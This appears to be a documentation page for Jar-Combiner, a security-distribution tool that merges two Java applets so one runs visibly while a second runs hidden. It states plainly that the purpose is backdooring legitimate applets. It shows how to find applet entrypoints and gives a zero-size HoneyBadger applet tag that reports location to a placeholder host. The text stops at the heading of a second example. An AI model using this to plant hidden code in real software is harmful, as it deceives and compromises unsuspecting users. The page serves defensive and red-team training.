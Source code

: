 
Jar-Combiner
===========

Website
-------

<https://bitbucket.org/ethanr/jar-combiner>

Description
-----------

Jar-Combiner is a tool used to combine two seperate Java applets into one.  The resultant combined applet will run one of the former applets normally, while hiding the second one in the background.
This is incredibly useful for backdooring legitimate Java applets.
A user running the new combined applet will see what they expect, while your code runs in the background.

Install Location
----------------

`/opt/jar-combiner/`

Usage
-----

`/opt/jar-combiner/Linux$` **`./joining.sh help`**

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155669&authkey=AGBOyyL_dQsqGLg" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Finding the Entrypoints
----------------------------------

In order to combine two applets, you must first know the entrypoints into both of those applets.
The entrypoints are the classes that extend `JApplet` or `Applet`; they are where the code starts.
Every applet has a different entrypoint.

The easiest way to determine the entrypoints is by looking at html files made to launch the
applets in question.  Take an html file or webpage that launches one of your Java applets and
view its source.  In the source of the file you should be able to find the `applet` tag.
Inside of this tag, find the parameter `code`.  The value to which the parameter `code` is set,
is your entrypoint for that applet.

For example, the html that launches the HoneyBadger geolocation applet looks something like this:

    <applet code="honey.class" archive="honey.jar" width="0px" height="0px">
        <param name="target" value="target_name" />
        <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php"
    </applet>

So in this case, the path to the entrypoint would simply be `honey.class`.

Example 2: Combining Two jars
-----------------------------
